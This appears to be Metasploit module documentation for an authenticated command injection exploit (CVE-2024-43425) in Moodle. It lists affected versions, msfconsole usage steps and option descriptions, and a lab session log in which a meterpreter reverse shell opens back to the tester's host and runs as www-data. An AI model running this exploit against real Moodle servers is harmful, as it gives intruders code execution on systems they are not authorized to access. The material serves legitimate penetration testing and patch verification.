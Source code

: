 ## Vulnerable Application

This module exploits a command injection vulnerability in Moodle (CVE-2024-43425) to obtain remote code execution.
By default, the application will run in the context of www-data, so only a limited shell can be obtained.

Valid credentials are required to exploit this vulnerability. Moreover, the user must be authorized to either add a new or modify an
existing quiz, in order to reach the vulnerable function and trigger the bug. User roles that fall into this category include
`Teacher` and `Administrator`, but might differ depending on the specific deployment and configuration.

Affected versions include:
* 4.4 to 4.4.1
* 4.3 to 4.3.5
* 4.2 to 4.2.8
* 4.1 to 4.1.11

Moodle published an advisory [here](https://moodle.org/mod/forum/discuss.php?d=461193).

The original advisory is available [here](https://www.redteam-pentesting.de/en/advisories/rt-sa-2024-009/), and a more detailed writeup is
available [here](https://blog.redteam-pentesting.de/2024/moodle-rce/).

## Testing

Legacy releases from Moodle can be obtained from [here](https://download.moodle.org/releases/legacy/).
An installation guide is available [here](https://docs.moodle.org/404/en/Step-by-step_Installation_Guide_for_Ubuntu).

**Successfully tested on**

- Moodle v4.4.1 on Ubuntu 20.04 LTS

## Verification Steps

1. Deploy Moodle
2. Start `msfconsole`
3. `use exploit/linux/http/moodle_rce`
4. `set USERNAME <USER>`
5. `set PASSWORD <PASSWORD>`
6. `set CMID <ID>`
7. `set COURSEID <ID>`
8. `set RHOSTS <IP>`
9. `set LHOST <IP>`
10. `exploit`

## Options

### USERNAME
The username to authenticate with in Moodle.

### PASSWORD
The password for the user.

### CMID
The course module ID. Can be retrieved from the URL when the "Add question" button is pressed within a quiz of a course
(e.g., IP>/moodle/mod/quiz/edit.php?cmid=4).

### COURSEID
The course ID. Can be retrieved from the URL when the course is selected (e.g., <IP>/moodle/course/view.php?id=3).

## Scenarios

Running the module against Moodle v4.4.1 should result in an output similar to the following:

```
msf6 > use exploit/linux/http/moodle_rce 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/moodle_rce) > set USERNAME testuser
USERNAME => testuser
msf6 exploit(linux/http/moodle_rce) > set PASSWORD iusldbf843498fKJASD
PASSWORD => iusldbf843498fKJASD
msf6 exploit(linux/http/moodle_rce) > set CMID 2
CMID => 2
msf6 exploit(linux/http/moodle_rce) > set COURSEID 2
COURSEID => 2
msf6 exploit(linux/http/moodle_rce) > set RHOSTS 192.168.217.141
RHOSTS => 192.168.217.141
msf6 exploit(linux/http/moodle_rce) > set LHOST 192.168.217.128
LHOST => 192.168.217.128
msf6 auxiliary(exploit/linux/http/moodle_rce) > exploit 
[*] Started reverse TCP handler on 192.168.217.128:4444 
[*] Obtaining MoodleSession and logintoken...
[+] Server reachable.
[*] Authenticating as testuser...
[*] Successfully authenticated.
[*] Obtaining sesskey, courseContextId, and category...
[*] Injecting command...
[*] Sending stage (3045380 bytes) to 192.168.217.141
[*] Meterpreter session 1 opened (192.168.217.128:4444 -> 192.168.217.141:37152) at 2024-09-01 18:19:44 -0400
[-] Exploit aborted due to failure: unreachable: Failed to receive a reply from the server.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/moodle_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer     : 192.168.217.141
OS           : Ubuntu 24.04 (Linux 6.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
  
meterpreter > getuid 
Server username: www-data
```
